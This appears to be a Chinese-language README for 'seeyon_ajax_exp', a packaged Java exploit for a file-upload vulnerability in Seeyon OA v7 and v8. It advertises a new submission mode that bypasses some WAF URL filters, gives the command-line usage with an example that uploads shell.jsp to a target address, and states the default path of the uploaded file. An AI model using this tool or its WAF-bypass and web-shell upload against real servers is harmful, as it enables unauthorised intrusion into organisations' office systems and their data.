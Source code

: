 # seeyon_ajax_exp

致远OA文件上传漏洞利用脚本

版本更新,更新内容：

新增提交方式，绕过部分url过滤规则waf

已知影响版本：致远oa v7,v8

脚本已经打包好，没有任何防护，可直接查看源码，不存在后门。

使用方法：java -jar seeyon_exp.jar 目标地址 上传文件名字 上传文件绝对路径 提交方式

例:      java -jar seeyon_exp.jar 10.10.10.10:8080 shell.jsp C:\Users\nex1less\Desktop\222.txt 1

默认路径为:ip + /seeyon/ + 文件名



